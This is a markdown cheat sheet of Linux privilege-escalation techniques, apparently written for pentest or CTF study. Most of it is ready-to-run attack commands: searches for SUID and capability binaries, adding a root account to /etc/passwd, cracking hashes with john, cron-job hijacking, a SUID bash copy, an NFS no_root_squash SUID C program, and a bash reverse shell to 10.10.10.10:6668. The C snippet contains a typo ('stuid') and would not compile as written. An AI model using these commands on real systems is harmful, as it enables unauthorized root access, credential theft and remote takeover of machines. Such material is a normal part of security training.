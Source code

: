 # _Privilege Escalation for Linux (Cheat-Sheet)_

> ## **Sudo - Shell Escape Sequences**
>
> command `sudo -l`  
> Visit [GTFOBins](https://gtfobins.github.io/) and search for some of the program names. If the program is listed with "sudo" as a function, you can use it to elevate privileges, usually via an escape sequence.

> ## **SUID (Set-user Identification)**
>
> _command_ `find / -type f -perm -04000 -ls 2>/dev/null`  
> or  
> `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null` will list files that have SUID or SGID bits set.  
> Visit Search result: [GTFOBins](https://gtfobins.github.io/)  
> try read the `/etc/shadow` file or adding our user to `/etc/passwd`
> add a new user that has root privileges.  
> We will need the hash value of the password we want the new user to have. This can be done quickly using the openssl tool on Kali Linux: _command_ `openssl passwd -1 -salt foo` Result: _$1$pyuddMjp$3.deTnHdrVVVLoh5zkQ0B._  
> We will then add this password with a username to the `/etc/passwd` file: _hacker:$1$pyuddMjp$3.deTnHdrVVVLoh5zkQ0B.:0:0:root:/root:/bin/bash_  
> Once our user is added we will need to switch to this user and hopefully should have root privileges.  
> **With _unshadow_ and _john_:**  
>  unshadow necesita los archivos _/etc/shadow_ and _/etc/passwd_  
>  create with result _shadow.txt_ and _passwd.txt_  
>  _command_ `unshadow passwd.txt shadow.txt > passwords`  
>  `john passwords` -> default brute force or `john --wordlist=diccionario.lst --rules password`

> ## **Capabilities**
>
> _command_ `getcap -r / 2>/dev/null`  
> Search [GTFOBins](https://gtfobins.github.io/) has a good list of binaries that can be leveraged for privilege escalation if we find any set capabilities.

> ## **Cron Jobs - File Permissions**
>
> _command_ `cat /etc/crontab`  
> `locate overwrite.sh` or `locate backup.sh`  
> A similar situation where the "any.sh" script was deleted, but the cron job still exists.
> If the full path of the script is not defined, cron will refer to the paths listed under the PATH variable in the _/etc/crontab_ file. In this case, we should be able to create a script named “any.sh” under our user’s home folder and it should be run by the cron job.  
> _modify or create script_

```sh
#!/bin/bash

bash -i >& /dev/tcp/10.10.10.10/6668 0>&1
```

> We will now run a listener on our attacking machine to receive the incoming connection:  
> _command_ `nc -nlvp 6668`

> ## **Cron Jobs - PATH Enviroment Variable**
>
> _command_ `cat /etc/crontab`  
> Note that the PATH variable starts with /home/user which is our user's home directory.  
> Create a file called overwrite.sh in your home directory with the following contents:  
> _modify script_

```sh
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

> Make sure that the file is executable:  
> `chmod +x /home/user/overwrite.sh`  
> Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges: `/tmp/rootbash -p`

> ## **Weak File Permissions - Writable /etc/passwd**
>
> `ls -l /etc/passwd`  
> Generate a new password hash with a password of your choice:  
> `openssl passwd newpasswordhere`  
> Edit the /etc/passwd file and place the generated password hash between the first and second colon (:) of the root user's row (replacing the "x").  
> Switch to the root user, using the new password.

> ## **Weak File Permissions - Writable /etc/shadow**
>
> `ls -l /etc/shadow`  
> Generate a new password hash with a password of your choice:  
> `mkpasswd -m sha-512 newpasswordhere`  
> Edit the /etc/shadow file and replace the original root user's password hash with the one you just generated.  
> Switch to the root user, using the new password.

> ## **NFS (Network File Sharing)**
>
> configuration is kept in the _/etc/exports_ file. This file is created during the NFS server installation and can usually be read by users.  
>  _command_ `cat /etc/exports`  
>  The critical element for this privilege escalation vector is the “no_root_squash”. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.  
>  We will start by enumerating mountable shares from our attacking machine: `showmount -e 10.10.10.10`  
>  We will mount one of the “no_root_squash” shares to our attacking machine and start building our executable: `mkdir /tmp/backupsonattackermachine`  
>  `mount -o rw 10.10.10.10:/fileexport /tmp/backupsonattackermachine`  
>  As we can set SUID bits, a simple executable that will run /bin/bash on the target system will do the job: `nano nfs.c`

```c
int main()
{ setgid(0);
  stuid(0);
  system("/bin/bash");
  return 0;
}
```

> Once we compile the code we will set the SUID bit: `gcc nfs.c -o nfs -w`  
>  `chmod +s nfs`  
>  `ls -l nfs`  
>  `./nfs`

> ## **Python**

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")
export TERM=xterm
```
